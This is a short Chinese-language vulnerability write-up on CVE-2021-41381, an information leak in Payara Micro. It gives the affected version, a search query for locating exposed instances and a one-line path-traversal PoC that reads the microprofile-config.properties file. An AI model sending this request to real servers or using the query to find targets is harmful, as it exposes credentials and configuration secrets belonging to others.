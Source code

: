 ```yaml
---
title: PayaraMicro microprofile-config.properties 信息泄漏漏洞 CVE-2021-41381
---
```


# PayaraMicro microprofile-config.properties 信息泄漏漏洞 CVE-2021-41381

## 漏洞描述

PayaraMicro microprofile-config.properties文件配置错误的情况下可被任意用户读取，获取敏感信息

## 漏洞影响

<a-checkbox checked>Payara Micro Community 5.2021.6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Payara-Micro"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1633094689200-c5ef35c0-8611-4d3b-a900-d2c4ad2be72b.png)

验证POC

```java
/.//WEB-INF/classes/META-INF/microprofile-config.properties
```

![img](../../../.vuepress/public/img/1633094812047-1a69a79c-0757-4941-b4da-b2763cbacc26.png)